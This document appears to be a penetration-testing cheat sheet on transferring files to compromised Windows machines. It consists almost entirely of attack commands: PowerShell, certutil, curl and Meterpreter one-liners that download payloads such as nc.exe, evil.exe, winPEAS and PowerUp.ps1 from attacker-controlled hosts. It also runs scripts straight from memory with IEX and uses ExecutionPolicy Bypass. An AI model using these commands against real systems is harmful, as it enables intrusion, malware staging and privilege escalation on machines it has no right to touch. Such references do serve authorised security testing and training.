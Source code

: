 ### Powershell

<pre class="language-powershell" data-overflow="wrap" data-full-width="true"><code class="lang-powershell">https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server
<strong>
</strong><strong>iwr -uri http://$ATTACKER_IP/payload.exe -Outfile service.exe
</strong>powershell.exe wget http://10.10.14.7:8000/nc.exe -OutFile c:\\Users\\mssql-svc\\Documents\\nc.exe

python -m SimpleHTTPServer 80 # Linux 
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.1.0/winPEAS.exe','C:\Temp\WinPEAS.exe')" 
# EXECUTE WITHOUT SAVING TO DISK
C:\> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')

# OTHERS
powershell iwr $ATTACK_IP:/$PATH -o $TARGET_PATH
Start-BitsTransfer -Source $url -Destination $output
iex​(New-Object Net.WebClient).DownloadString('http://10.10.10.0/PowerUp.ps1') 
(New-Object System.Net.WebClient).DownloadFile($url, $output)
Invoke-WebRequest -Uri $url -OutFile $output

# BASE64
[Convert]::ToBase64String([IO.File]::ReadAllBytes('c:\file'))

#SCRIPTING (POWERSHELL)
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1
C:\> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile -File wget.ps1
</code></pre>

### certutil / meterpreter / curl

{% code overflow="wrap" %}
```bash
########### WINDOWS TO LINUX
certutil -encode "file" output
# Copy/paste output to Linux file called file.b64 and then
# JUST BASE64 PART, WITHOUT BEGIN CERTIFICATE, END CERTIFICATE LINES
base64 -d file.b64 > file.ext

python3 -m http.server 8080 # on Linux
certutil -urlcache -split -f http://$IP:8080/file.txt (C:\Windows\Temp\file.txt)

upload /opt/file.txt # Meterpreter

# From Windows 10 curl is a good option
curl http://IP/file.exe -o file.exe
```
{% endcode %}
